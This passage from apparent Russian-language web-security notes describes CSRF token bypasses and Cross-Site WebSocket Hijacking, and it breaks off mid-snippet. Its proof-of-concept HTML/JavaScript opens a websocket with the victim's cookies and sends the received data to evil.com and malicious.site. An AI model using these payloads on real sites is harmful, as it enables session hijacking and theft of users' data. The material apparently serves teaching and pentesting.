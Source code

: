 * Delete CSRF-token

Можем попробовать просто убрать токен из запроса.

* CSRF-токен не привязан к сессии

Можем подставить csrf-токен из другой сессии. А у приложения общий пул CSRF-токенов.



### Cross-Site WebSocket Hijacking

Суть в общем та же: пользователь заходит на нашу страницу, мы пробуем от его лица сделать запрос на открытие вебсокета. PoC:

```markup
<html>
    <body>
        <script src="jquery.min.js"></script>
        <script>
            // open
            var ws = new WebSocket("http://example.com", "chat");
            
            // send
            ws.send("Attacker's message");
            
            // receive
            ws.onmessage = function(event) {
                $.post("evil.com", event.data);
            }
        </script>
    </body>
</html>
```

Запрос будет выглядеть примерно так:

```
 GET /chat HTTP/1.1
 Host: example.com
 Upgrade: websocket
 Connection: Upgrade
 Sec-WebSocket-Key: dGhlIHNhbXBsZSBub25jZQ==
 Origin: http://malicious-site.com
 Sec-WebSocket-Protocol: chat
 Sec-WebSocket-Version: 13
 Cookie: session_id=victim_uuid	
```

Или отправка через Fetch API, а не через jquery:

```markup
<html>
    <head>test</head>
    <body>
        <script>

            function send(message) {
                let params = {
                    message
                };

                let sp = new URLSearchParams(params);

                fetch("https://malicious.site/log?" + sp.toString(), {method: 'GET'})
                    .then(response => response.text())
                    .then(text => console.log(text));
            }
            
```